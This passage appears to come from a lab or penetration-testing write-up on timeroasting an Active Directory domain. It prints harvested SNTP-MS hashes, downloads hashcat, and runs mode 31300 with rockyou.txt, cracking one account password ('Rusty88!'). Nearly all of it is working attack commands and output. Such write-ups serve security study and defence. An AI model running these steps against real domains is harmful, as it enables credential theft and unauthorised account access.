 ```console
1123:$sntp-ms$92b3593af0f6100870e32c86ebfe63a2$1c0111e900000000000a7e024c4f434cec677c1328a4ac1ce1b8428bffbfcd0aec68223390d5bb88ec68223390d5e071
1124:$sntp-ms$ad1747f7e239d3b50692b920a23af53c$1c0111e900000000000a7e024c4f434cec677c132a0b8066e1b8428bffbfcd0aec682233923c8e25ec682233923cb161
1125:$sntp-ms$dd16964e6d6f05fda3e825ebf5d1f424$1c0111e900000000000a7e024c4f434cec677c1327c0d979e1b8428bffbfcd0aec68223393c8f82bec68223393c914b1
1126:$sntp-ms$b2a364d005ab94fe19a0c309f650ef86$1c0111e900000000000a7e024c4f434cec677c132905c38ee1b8428bffbfcd0aec682233950ddd38ec682233950e0073
1127:$sntp-ms$51001bfc2f7768ccc4e59c4db49f0830$1c0111e900000000000a7e024c4f434cec677c13291bdcd5e1b8428bffbfcd0aec6822339523f82cec682233952419ba
```

Download and unpack the latest version of hashcat:

```console
root@kali:~# curl -sLO https://github.com/hashcat/hashcat/releases/download/v7.1.2/hashcat-7.1.2.7z

root@kali:~# 7z x hashcat-7.1.2.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_SG.UTF-8 Threads:8 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 19682772 bytes (19 MiB)

Extracting archive: hashcat-7.1.2.7z
--
Path = hashcat-7.1.2.7z
Type = 7z
Physical Size = 19682772
Headers Size = 25149
Method = LZMA2:384m LZMA:20 BCJ2
Solid = +
Blocks = 2

Everything is Ok

Folders: 56
Files: 3100
Size:       389386374
Compressed: 19682772
```

Put the hashes from `timeroast.py` without the `<rid>:` prefix and run hashcat against the hashes with rockyou.txt

```console
root@kali:~/hashcat-7.1.2# ./hashcat.bin -m 31300 ../timeroast-hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting
⋮

$sntp-ms$dd16964e6d6f05fda3e825ebf5d1f424$1c0111e900000000000a7e024c4f434cec677c1327c0d979e1b8428bffbfcd0aec68223393c8f82bec68223393c914b1:Rusty88!
Approaching final keyspace - workload adjusted.
⋮
```
